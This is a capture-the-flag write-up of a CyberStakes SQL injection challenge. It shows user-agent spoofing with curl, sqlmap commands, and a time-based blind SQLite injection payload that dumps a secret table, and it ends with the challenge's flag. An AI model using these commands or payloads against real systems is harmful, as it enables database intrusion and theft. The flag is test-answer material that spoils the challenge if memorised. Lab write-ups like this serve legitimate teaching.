 # The SQL Always Sucks

* **Category:** Web Security
* **Points:** 150
* **Challenge:** We discovered an application in our environment that is apparently under development. Please identify the risk it poses.

<br /> 

### **DISCLAIMER:** The challenge has been taken down from the CyberStakes website, so I was unable to redo the challenge and take complete notes.  Some of my command output will have a *...snip...* because I didn't record the full output.  

<br />

Navigating to the webserver in FireFox, http://challenge.acictf.com:28986/, we can see that there is a textbox to input our first name.  Looking at the source of the page, we find something interesting:
```
<!--Dev is only using Sqlite. Bobby Needs to fix this -->
<!--Form to retrieve last name from first name. In Dev.-->

```

<br />

So we know that the target is using an Sqlite database.  One of the hints states may curl and sqlmap will not work unless we use the proper user-agent string.  Lets test this out with curl:
```
curl http://challenge.acictf.com:28986/

User-Agent Alert! Help! I'm Being Hacked!!! /dead
```
<br /> 

Ok, lets open up burpsuite and use the proxy to intercept a GET request:

<br />

![burp]()

<br /> 

Now using the user-agent that we intercepted, lets try curl again:
```
curl -A "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" http://challenge.acictf.com:28986/
```

<br /> 

This time we are successful.  Now let use sqlmap to test if the *firstname* parameter is vulnerable to SQL injection.  After increasing the level of tests and the risk of the tests, I was able to enumerate the tables in the database:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 --tables


...snip...

Parameter: firstname (GET)
    Type: AND/OR time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=Hacker' OR 7813=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- eBHe
---
[15:02:17] [INFO] testing SQLite
[15:02:17] [INFO] confirming SQLite
[15:02:17] [INFO] actively fingerprinting SQLite
[15:02:17] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[15:02:17] [INFO] fetching tables for database: 'SQLite_masterdb'
[15:02:17] [INFO] fetching number of tables for database 'SQLite_masterdb'
[15:02:17] [INFO] resumed: 2
[15:02:17] [INFO] resumed: SuperSecretData
[15:02:17] [INFO] resumed: Users
Database: SQLite_masterdb
[2 tables]
+-----------------+
| SuperSecretData |
| Users           |
+-----------------+

...snip...
```

<br /> 

Now lets enumerate the columns in the *SuperSecretData* table:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 -T SuperSecretData --columns


...snip...

Parameter: firstname (GET)
    Type: AND/OR time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=Hacker' OR 7813=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- eBHe
---
[08:40:45] [INFO] testing SQLite
[08:40:45] [INFO] confirming SQLite
[08:40:45] [INFO] actively fingerprinting SQLite
[08:40:45] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[08:40:45] [INFO] resumed: CREATE TABLE `SuperSecretData` (\n\t`ID`\tINTEGER,\n\t`flag`\tTEXT\n)
Database: SQLite_masterdb
Table: SuperSecretData
[2 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| flag   | TEXT    |
| ID     | INTEGER |
+--------+---------+

...snip...
```

<br />

Last we dump the contents of the *flag* column:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 -T SuperSecretData -C flag --dump


...snip...

Database: SQLite_masterdb
Table: SuperSecretData
[1 entry]
+----+----------------------------------+
| ID | flag                             |
+----+----------------------------------+
| 1  | ACI{59df47a3243d2f239ea878a7266} |
+----+----------------------------------+

...snip...
```

<br />

## Flag: ACI{59df47a3243d2f239ea878a7266}
